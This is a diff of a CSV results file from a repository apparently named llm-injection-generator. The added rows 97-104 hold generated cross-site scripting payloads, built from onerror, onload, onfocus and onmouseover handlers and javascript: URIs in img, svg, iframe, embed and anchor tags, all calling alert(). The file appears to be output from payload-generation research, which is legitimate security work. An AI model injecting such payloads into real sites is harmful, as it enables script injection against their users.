

Before and after one commit to selimaynigul/llm-injection-generator, a CSV file: result/gan_result_chrome.csv, drawn as a sheet; only a part is shown, gaps mark what is left out; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/result/gan_result_chrome.csv
+++ b/result/gan_result_chrome.csv
+row 97: body_tag | <input type='image' src='x' onerror='alert(1);'><a href='#' onclick='alert(8);'><img src='x' onerror='alert(2);'>
+row 98: body_tag | <svg onload='alert("XSS6")'><iframe src='javascript:alert("XSS7");'>type='
+row 99: body_tag | <a href='javascript:alert("XSS8")'><img src='x' onerror='alert("XSS2");'><img src='x' onerror='alert(2);'>
+row 100: body_tag | <iframe src='javascript:alert(1);'><input type='submit'>onclick=
+row 101: body_tag | <input type='text' value='XSS6' onfocus='alert(this.value)'>href="h<img src='x' onerror='alert("XSS2");'>
+row 102: body_tag | </style><input type='text' value='XSS6' onfocus='alert(this.value);'><div onmouseover='alert("XSS6");'>
+row 103: body_tag | <embed src='javascript:alert("XSS9");'><body onload='alert("XSS3");'><input type='submit'>
+row 104: body_tag | <embed src='javascript:alert("XSS9");'><div onmouseover='alert("XSS6");'><img src='x' onerror='alert("XSS9")'>
```
Also changed, not shown: result/ga_result_llm.csv, result/gan_result_vec_chrome.csv, 8 other files.
